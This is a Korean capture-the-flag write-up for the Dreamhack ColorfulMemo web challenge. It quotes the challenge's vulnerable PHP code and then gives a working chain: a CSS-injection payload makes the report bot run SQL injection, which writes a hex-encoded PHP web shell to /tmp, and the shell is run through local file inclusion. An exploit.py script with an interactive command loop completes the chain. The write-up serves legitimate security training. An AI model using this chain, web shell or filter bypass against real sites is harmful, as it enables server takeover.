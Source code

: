 ```yaml
---
title: "[dreamhack] ColorfulMemo 문제 풀이"
categories:
  - dreamhack
tags:
  - dreamhack   
  - css injection
  - ssrf
  - LFI
  
toc: true
toc_sticky: true
toc_label: "ColorfulMemo 문제 풀이"
toc_icon: "bookmark"
author_profile: true
---
```


💡  [2022 Spring GoN Open Qual CTF] ColorfulMemo 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
문제 링크 : [https://dreamhack.io/wargame/challenges/473/](https://dreamhack.io/wargame/challenges/473/)

우선 문제를 풀기에 앞서 웹페이지의 기능은 다음과 같습니다.

**Write**

![image](https://user-images.githubusercontent.com/33647663/160804268-91cab590-393d-41ed-ac79-2e2a9cad684c.png)

**Read & Report**

![image](https://user-images.githubusercontent.com/33647663/160804363-b7f0fcb9-933f-4e8e-b8fa-0ca235b3769e.png)

기본적으로 게시글에 Report 기능이 있기 때문에 CSRF, XXE, SSRF 와 같은 스크립트를 이용한 공격에 대해서 생각해 봐야 합니다.

# 파일 분석

본론 부터 보면 문제에는 총 3개의 취약점이 있습니다.

## LFI(Local File Inclusion)

index.php 파일에서는 다음과 같은 형태로 파일들을 연결해 줍니다.
이때 Path로 입력한 값에 대한 검증이 없기 때문에
```path=../../../../tmp/shell```과 같이 입력한다면
```./../../../../tmp/shell.php``` 파일에 접근이 가능해집니다.

**index.php**
```php
<?php
    $path = $_GET["path"];
    if($path == ""){
        $path = "main";
    }
    $path = "./".$path.".php";
?>

// 중략
<div class="body">
    <?php include_once $path; ?>
</div>
```

## SQLI(SQL Injection)
대부분의 코드에서 Prepared Statement를 활용하여 원천적으로 SQL Injection이 막혀있는데, 다음 부분에서 유일하게 sql injection 공격이 가능한 포인트가 있었습니다. id 값에 대한 검증은 check.php 파일을 호출하기 전에 하고 있었으며, 이 부분을 우회한다면 sqli 공격이 가능합니다.

**check.php**
```php
<?php
if($_SERVER["REMOTE_ADDR"] == '127.0.0.1' || $_SERVER["REMOTE_ADDR"] == '::1'){
    $id = $_GET['id'];
    $mysqli = new mysqli('localhost','user','password','colorfulmemo');
    // I believe admin 
    $result = $mysqli->query('SELECT adminCheck FROM memo WHERE id = '.$id); // SQL Injection에 취약함
    if($result){
        $row = mysqli_fetch_row($result);
        if($row){
            if($row[0] != 1){
                $stmt = $mysqli->prepare('UPDATE memo SET adminCheck = 1 WHERE id = ?');
                $stmt->bind_param('i',$id);
                $stmt->execute();
                $stmt->close();
            }
        }
    }
}
else{
    die("no hack");
}
?>
```

## SSRF with CSS Injection
게시글을 read할때 다음과 같은 로직으로 구성되어 script를 차단하고 있습니다. 이때 색을 선택하는 color 부분에서 '<' , '>' 에 대한 필터링만 하고 있기 때문에 CSS Injection이 가능한 취약점이 발생했습니다. 이를 이용해서 report를 할 때 해당 게시글을 읽으면, 봇에서 스크립트가 실행되게 되어 SSRF 공격이 가능해 집니다.

**read.php**

```php
<?php
$id = $_GET["id"];

$mysqli = new mysqli('localhost','user','password','colorfulmemo');
if($mysqli){
    $stmt = $mysqli->prepare('SELECT title, color, content, adminCheck FROM memo WHERE id = ?');
    $stmt->bind_param('i',$id);
    $stmt->execute();
    $result = $stmt->get_result();
    $stmt->close();
}
else{
    die('db error');
}

$row = mysqli_fetch_row($result);
if($row){
    $title = $row[0];
    $color = $row[1];
    $color = str_replace("<", "&lt;", $color);
    $color = str_replace(">", "&gt;", $color);
    $content = $row[2];
    $adminCheck = $row[3];
}
else{
    die('no such memo');
}

<style>
    .content{
        color:<?php echo $color ?>      // CSS Injection 취약점
    }
</style>

// $title과 $content는 htmlspecialchars로 스크립트 실행 불가
<td><?php echo htmlspecialchars($title); ?></td>
<td><span class="content"><?php echo htmlspecialchars($content); ?></span></td>
```


# 시나리오

위의 3가지 취약점을 종합하여 다음과 같은 시나리오 flag를 획득합니다.

1. 게시글을 작성할 때, CSS Injection을 이용하여 악성 게시글을 report 하여 bot에서 글을 읽게 만든 후, ./check?id=[sql injection 코드] 로 작성하여 SSRF를 이용한 sql injection을 수행합니다.

2. SQL Injection 에서는 웹쉘이 서버에 생성되도록 합니다. my.cnf 파일을 보면 ```secure-file-priv= /tmp/```로 되어 있기 때문에 /tmp/shell.php로 파일을 작성합니다.

3. LFI 취약점을 이용하여 해당 경로로 접근하여 웹쉘을 실행시킵니다.


이 시나리오 대로 웹쉘이 실행되며 flag를 획득할 수 있습니다.


## CSS Injection

memoColor =  black; background: url("./check.php?id=3 union select '웹쉘' into outfile '/tmp/shell.php'")

와 같이 작성해 준다면 봇이 해당 글을 클릭하면 SSRF로 인해서 shell.php 파일이 생성됩니다.

## bypass '<','>' filtering
웹쉘을 작성할 때 주의할 점은 read.php 함수에서 다음과 같이 '<','>' 글자를 필터링 하고 있다는 것입니다.

```php
    $color = str_replace("<", "&lt;", $color);
    $color = str_replace(">", "&gt;", $color);
```

웹쉘을 다음과 같이 작성하면 필터링에 걸립니다.

```php
<?php system($_GET['cmd']); ?>
```

따라서 이 부분을 16진수로 표현하여 php에서는 필터링에 안걸리지만, mysql 에서 실행될 때, 문자열로 변환되어 실행되도록 해줍니다.

```
3 union select 0x3c3f7068702073797374656d28245f4745545b27636d64275d293b203f3e  into outfile '/tmp/shell.php'
```

## exploit.py

```python
import requests

url = "http://host1.dreamhack.games:12811/?path=write"

datas = {
    "memoTitle" : "1",
    "memoColor" : "black; background: url(\"./check.php?id=3 union select 0x3c3f7068702073797374656d28245f4745545b27636d64275d293b203f3e  into outfile '/tmp/shell.php'\")",
    "memoContent" : "123"
}

response = requests.post(url,data=datas)
# 게시글 작성 후 해당 게시글 report.
# 그러면 /tmp/shell.php 파일이 서버에 생성됩니다.

# 웹쉘 실행 코드는 아래


while(1):
    payload = input("[+] Enter the command : ")
    RESULT = requests.get("http://host1.dreamhack.games:12811" + f'/?path=../../../../../../tmp/shell&cmd={payload}').text.split('<div class="body">')[1].split('</div>')[0].strip()
    print(RESULT)
```


**게시글 작성한 뒤 해당 글을 읽을 때, check.php파일이 호출되는 모습**

![image](https://user-images.githubusercontent.com/33647663/160810280-8c1f9114-9a16-4de9-8579-b686a47bdada.png)

**report 후, 웹 쉘이 실행되어 쉘을 획득한 모습**
![image](https://user-images.githubusercontent.com/33647663/160810477-542bafb9-0b84-4331-acab-4fdf41b60899.png)

**root 디렉터리에 flag 파일이 보임**
![image](https://user-images.githubusercontent.com/33647663/160810665-b67b3615-7c2a-457f-8278-1a969d7030f6.png)
